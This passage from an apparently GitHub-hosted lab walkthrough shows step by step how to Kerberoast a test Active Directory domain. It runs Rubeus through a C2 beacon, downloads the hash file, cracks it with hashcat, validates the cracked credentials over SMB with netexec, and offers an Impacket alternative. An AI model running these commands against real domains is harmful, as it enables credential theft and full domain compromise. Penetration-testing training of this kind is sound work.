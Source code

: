 ## Step-by-Step (Using Rubeus)
1. Inline-execute Rubeus on a target:
```beacon
dotnet inline-execute /home/kali/tools/Ghostpack-CompiledBinaries/Rubeus.exe kerberoast /domain:lab.local /outfile:krbdebug.log
```

![image](https://github.com/user-attachments/assets/ee425a66-a703-4a6d-9434-c7d7d402ba5c)


2. Transfer the extracted hashes to your Kali machine:
```
download c:\loot\krbdebug.log
```

<img width="1016" height="603" alt="image" src="https://github.com/user-attachments/assets/8d74ddee-489b-4fd7-b683-65c83275c8d4" />

3. Find and copy the file `krbdebug.log` to another folder:

<img width="964" height="655" alt="image" src="https://github.com/user-attachments/assets/042db310-74d8-47a3-99bb-7ec570f60257" />

Let's crack the hashes using [Hashcat](https://github.com/hashcat/hashcat)

4. Execute `hashcat` in the same folder where you saved the output file `krbdebug.log`:
```bash
hashcat -m 13100 -a 0 krbdebug.log /usr/share/wordlists/rockyou.txt.gz --potfile-path=new.pot --outfile=cracked.txt --status -O
```

![image](https://github.com/user-attachments/assets/ff144424-7575-4e59-a758-618b49d9c1ad)


5. Open the file `cracked.txt` to check for the cracked passwords.

![image](https://github.com/user-attachments/assets/77e179c8-6e60-45df-86e0-5d014cac9e1a)


## Netexec: Validating Credentials via SMB
After extracting service account hashes with `Rubeus` and cracking them with `Hashcat`, we now have clear-text passwords for real AD accounts.

Let's use `Netexec` along with the credentials to test if the clear-text passwords are valid logins:

```bash
netexec smb 10.10.X.10 -u 'user' -p 'password' --dns-tcp --dns-server '10.10.X.10' -d 'lab.local'
```

![image](https://github.com/user-attachments/assets/639435c1-eedb-4913-a252-9e1abd7e59e3)


With valid `Domain Administrator` credentials, it's game over...

♟️ The domain is compromised again!

## Alternative Way: Using Impacket
1. You can also perform Kerberoasting using the Impacket `GetUserSPNs.py` tool:
```bash
GetUserSPNs.py 'lab.local/ricksmith:Spring2025!' -dc-ip 10.10.X.10 -outputfile krb_impacket.txt
```
2. Crack the hashes with Hashcat:
Execute `hashcat` in the same folder where you saved the output file `krb_impacket.txt`:
```bash
hashcat -m 13100 -a 0 krb_impacket.txt /usr/share/wordlists/rockyou.txt.gz --potfile-path=impacket.pot --outfile=cracked_impacket.txt --status -O
```





